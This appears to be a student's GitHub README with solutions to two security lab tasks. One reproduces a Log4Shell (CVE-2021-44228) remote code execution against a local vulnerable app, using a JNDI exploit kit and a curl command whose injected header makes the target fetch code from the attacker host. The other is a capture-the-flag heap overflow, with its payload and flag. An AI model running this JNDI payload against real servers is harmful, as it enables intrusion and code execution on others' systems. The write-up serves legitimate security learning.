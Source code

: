 # Tasks

Solutions and instructions to reproduce of provided tasks.

# Task 1 (RCE using log4j vulnerability)

This guide outlines the steps to exploit a remote code execution vulnerability in a Java web application using the log4shell (CVE-2021-44228) vulnerability.

### Task Overview

The task involves exploiting a vulnerability in the application's log4j library to execute remote code on the target system.

### Environment Setup

- Operating System: Ubuntu 22.04.3 LTS 
- Java Runtime Environment (JRE) version 8
- JNDI Injection Exploit Kit for RCE exploit (https://github.com/welk1n/JNDI-Injection-Exploit) -> mvn to build (optional)
- Target system: Windows 11

### Approach and Solution

The solution exploits the log4shell vulnerability by injecting a malicious payload via the "x-log" header, leading to remote code execution on the target system.

### Exploitation Steps

1. **Start the Vulnerable Application**: Launch the vulnerable web application (`vulnapp.jar`) on the target system.

  ``` java -jar vulnapp.jar```

3. **Prepare the Exploit Kit**: Build and launch the JNDI Injection Exploit Kit on the attacker host with the desired payload (e.g., `calc.exe` for Windows).

 ``` java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe' ```

5. **Craft the Payload**: Construct the payload to be injected through the "x-log" header, leveraging the JNDI Injection Exploit Kit's capabilities.

6. **Trigger the Exploit**: Send the crafted payload to the vulnerable application via curl or similar tools, exploiting the log4shell vulnerability.

 ``` curl http://<IP-ADDRESS>:8888/app/servlet -H 'x-log: ${jndi:rmi://<WSL-IP>:1099/<RMI lookup value as provided by Injection Exploit>}' ```

7. **Verify Remote Code Execution**: Upon successful exploitation, the payload should execute on the target system, demonstrating remote code execution.

### Demonstration of RCE

[![RCE demonstration](https://img.youtube.com/vi/NmcQrE_JIGw/0.jpg)](https://www.youtube.com/watch?v=NmcQrE_JIGw)

## Task 2

The challenge involved a binary with a vulnerability in the way it handled heap-allocated variables. The objective was to manipulate the heap to overwrite a specific variable (`safe_var`) with the string "ACMR". Upon success, the program would display the contents of "flag.txt".

### Environment Setup

Operating system: Ubuntu 22.04.3 LTS

### Approach and Solution

The solution involved a carefully crafted input to a buffer (`input_data`) that when written to, would overflow and overwrite the adjacent `safe_var` on the heap.

### Analyzing the Heap Layout

The heap contained two variables of interest:

- `input_data`: A buffer allocated 5 bytes on the heap.
- `safe_var`: A variable stored directly after `input_data` on the heap, checked by the program to print the flag.

Through analysis, it was clear that writing 32 characters to `input_data` followed by "ACMR" would overflow and fill `safe_var` with the desired string.

### Exploitation Steps

1. **Start the Program**: The binary was executed, and the initial heap state was observed.

2. **Craft the Payload**: A string of 32 "X" characters followed by "ACMR" was prepared as the payload to overflow `input_data` and overwrite `safe_var`.

3. **Execute the Overflow**: The crafted payload was entered into the program via the "Write to buffer" option.

4. **Check Heap State**: After the payload was written to the heap, the new heap state was examined to ensure `safe_var` now contained "ACMR".

5. **Print the Flag**: The option to print the flag was selected, which successfully displayed the contents of the flag due to the correct value in `safe_var`.

### Result

Using the payload `XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXACMR`, the heap overflow was successful, and the flag `acm_ftw` was printed as expected.

### Tools Used

- Decompilation software (e.g., Ghidra, IDA Pro) for analyzing the binary.
- A text editor to craft the payload.
- Terminal to interact with the binary program.

### Lessons Learned

This challenge was an excellent demonstration of a heap overflow vulnerability and underscored the importance of bounds checking in programs. It also showed the power of manual analysis in understanding and manipulating memory in a controlled manner.

![image](https://github.com/theg1239/tasks/assets/52027622/5d86b751-baee-4716-b0d1-3908840c4d9a)










